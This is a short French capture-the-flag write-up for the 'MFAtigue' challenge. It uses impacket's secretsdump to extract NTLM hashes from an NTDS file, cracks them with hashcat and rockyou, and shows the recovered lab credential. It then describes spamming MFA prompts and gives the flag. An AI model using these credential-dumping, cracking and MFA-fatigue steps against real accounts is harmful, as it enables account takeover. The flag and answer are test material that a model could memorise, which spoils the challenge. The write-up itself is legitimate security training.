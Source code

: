 # MFAtigue

__author__: Adam Rice

__synopsis__: We got our hands on an NTDS file, and we might be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...

Download the file(s) below and press the Start button on the top-right to begin this challenge.

__Attachements__: NTDS.zip

---

Après un petite recherche, on fait le lien entre ntds.dit et impacket.

Malheureusement, je n'ai pas su faire fonctionner durant le ctf.

Résolu **APRÈS** le ctf.

```bash
pipx install impacket
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL | grep -i -E "huntress" > hashdump
```

il va dump les creds dans le fichier hashdump, il nous reste plus qu'a hashcat

```bash
hashcat -a 0 -m 1000 hashdump /opt/SecLists/Passwords/rockyou.txt --username
```
il va trouver le mot de passe suivant dans toute la liste:

**08e75cc7ee80ff06f77c3e54cadab42a:katlyn99**

On grep rapidement dans le fichier pour retrouver le username associé:

**huntressctf.local\JILLIAN_DOTSON**:1113:aad3b435b51404eeaad3b435b51404ee:08e75cc7ee80ff06f77c3e54cadab42a:::

Les ID à utiliser sont les suivants:

**huntressctf\JILLIAN_DOTSON:katlyn99**

Il ne reste plus qu'a aller sur le site, se log, et spam la requête de MFA, afin de trigger le MFAtigue (attaque réelle)


le flag pour ce chall:

flag{9b896a677de35d7dfa715a05c25ef89e}

